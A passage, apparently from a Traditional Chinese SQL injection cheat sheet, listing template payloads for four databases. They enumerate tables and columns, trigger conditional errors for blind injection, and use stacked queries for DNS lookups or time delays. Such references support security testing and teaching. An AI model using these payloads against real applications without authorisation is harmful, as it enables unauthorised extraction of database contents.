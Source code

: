 ## DB contents
你可以列出 DB 中存在的 table，以及這些表所包含的 columns

Oracle
```sql
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
```

Microsoft
```sql
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

PostgreSQL
```sql
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

MySQL
```sql
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
 

---------------

## Conditional errors
可以測試一個單一的 boolean condition，並在條件為 `true` 時觸發 db error

Oracle
```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
```

Microsoft
```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
```

PostgreSQL
```sql
1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)
```

MySQL
```sql
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```

---------------


## 分批（或疊加）查詢
可以使用分批查詢來連續執行多個查詢
- 注意，在執行後續查詢的同時，結果不會返回給 App
- 因此，這種技術主要是針對 blind vulnerabilities，你可以使用第二個查詢來觸發 DNS lookup, conditional error or time delay
